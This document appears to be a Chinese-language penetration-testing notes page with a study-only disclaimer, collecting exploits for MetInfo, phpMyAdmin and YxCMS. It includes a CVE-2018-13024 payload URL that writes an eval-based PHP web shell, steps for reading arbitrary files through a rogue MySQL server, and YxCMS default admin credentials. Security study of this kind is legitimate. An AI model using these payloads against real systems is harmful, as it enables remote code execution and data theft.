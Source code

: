 # web 各类服务和中间件整合笔记

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

## Reference
- [中间件漏洞合集](https://mp.weixin.qq.com/s/yN8lxwL-49OKfVR86JF01g)

---

# 各类论坛/CMS/框架
## [MetInfo](https://www.metinfo.cn/)
**CVE-2018-13024**
- 简介

    远程攻击者可通过向 admin/column/save.php 文件发送 `module` 参数利用该漏洞向 .php 文件写入代码并执行该代码。

- 文章
    - [CVE-2018-13024复现及一次简单的内网渗透](https://www.freebuf.com/news/193748.html)

- POC | Payload | exp

    `admin/column/save.php?name=123&action=editor&foldername=upload&module=22;@eval($_POST[1]);/*`

## [phpMyAdmin](https://www.phpmyadmin.net/)
**LOAD DATA INFILE 任意文件读取漏洞**
- POC | Payload | exp
    [Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server)
    ```vim
    vim rogue_mysql_server.py

    PORT = 3307
    ```
    `python rogue_mysql_server.py`

    打开目标 phpMyAdmin 的登录页面，地址输入 db:3307、用户名、密码，提交登录。

    回到db的终端，如果文件读取成功会将文件内容记录到 mysql.log 文件中

**4.8.x 本地文件包含漏洞利用**

- [phpMyAdmin 4.8.x 本地文件包含漏洞利用 | Vulnspy Blog](http://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-LFI-Exploit/) 可以通过这个线上靶场实验,不过 docker 镜像可能有点问题,mysql 进程起不起来,我的解决方式是直接卸了重装 mysql-server,而且他默认的 apt 源无法访问,还要换一下 apt 源

## [YxCMS](http://www.yxcms.net/index.html)
**常见路径**
```
/index.php?r=admin  # 后台  默认管理员账号密码 admin 123456
```
